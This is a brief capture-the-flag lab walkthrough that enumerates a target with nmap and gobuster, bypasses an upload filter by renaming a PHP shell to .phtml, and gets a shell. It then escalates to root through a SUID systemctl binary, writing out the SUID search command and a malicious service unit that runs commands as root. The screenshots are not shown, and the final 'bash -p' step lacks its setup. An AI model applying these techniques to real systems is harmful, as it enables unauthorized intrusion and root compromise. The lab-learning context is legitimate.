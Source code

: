 First I run nmap:

![](attachment/f15aa9c22cc5003af75575e62ef9c3d3.png)

then I run gobuster to find subdomains

![](attachment/e3057613836a7d43b53dab4f193bd816.png)

I go to /internal and it has a file upload after many testing it does not accept php file it accept phtml so I renamed the extinsion to .phtml and uploaded the file

![](attachment/c734fc5e4050c7f01815d8d7ffd028ac.png)

![](attachment/6b8682105701164502fa6ce3bb6af982.png)

I was setting up a listener and I got a shell!

then **privilege escalation:**

```Less
find / -user root -perm -4000 -exec ls -ldb {} \;
```

/bin/systemctl stands out, at it is used to control and monitor services!

![](attachment/8c5bf233621b880cb0f86bb290180c1e.png)

```Less
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```

![](attachment/4bc155b4c4374a4e17c7d1392b404581.png)

```Less
bash -p
```

The p flag means we are running it privileged.

![](attachment/d42edfd683b7f9f478987c399a6590aa.png)